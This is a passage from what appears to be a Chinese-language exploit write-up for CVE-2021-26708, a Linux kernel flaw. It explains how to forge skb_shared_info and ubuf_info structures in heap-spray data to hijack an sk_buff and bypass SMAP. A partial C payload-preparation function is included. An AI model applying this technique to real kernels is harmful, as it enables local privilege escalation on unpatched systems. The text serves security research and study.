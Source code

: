 **准备payload来覆盖`sk_buff`对象**：`skb_shared_info`结构位于堆喷数据的 `SKB_SHINFO_OFFSET - 3776` 偏移处，`skb_shared_info.destructor_arg`指针指向 `struct ubuf_info` 对象，伪造的`ubuf_info`结构放在网络包的`MY_UINFO_OFFSET - 256`偏移处。由于`sk_buff`的地址已知，所以这是可以实现的。

**说明**：之前研究CVE-2017-2636的时候，由于不能把`ubuf_info`放进内核，只能放在用户空间，所以无法绕过SMAP，现在能够泄露`sk_buff`对象的地址，那么就能够将伪造的`ubuf_info`放进内核，就能绕过SMAP了。

```c
#define SKB_SIZE		4096
#define SKB_SHINFO_OFFSET	3776
#define MY_UINFO_OFFSET		256
#define SKBTX_DEV_ZEROCOPY	(1 << 3)

void prepare_xattr_vs_skb_spray(void)
{
    struct skb_shared_info *info = NULL;

    xattr_addr = spray_data + PAGE_SIZE * 4 - SKB_SIZE + 4;

    /* Don't touch the second part to avoid breaking page fault delivery */
    memset(spray_data, 0x0, PAGE_SIZE * 4);

    info = (struct skb_shared_info *)(xattr_addr + SKB_SHINFO_OFFSET);
    info->tx_flags = SKBTX_DEV_ZEROCOPY;
    info->destructor_arg = uaf_write_value + MY_UINFO_OFFSET;		// uaf_write_value 是什么？

    uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET); 	// 伪造 ubuf_info 结构的地址——用户空间
```

payload结构如下所示：

![4-1-skb_payload](/images/posts/CVE-2021-26708/4-1-skb_payload.png)
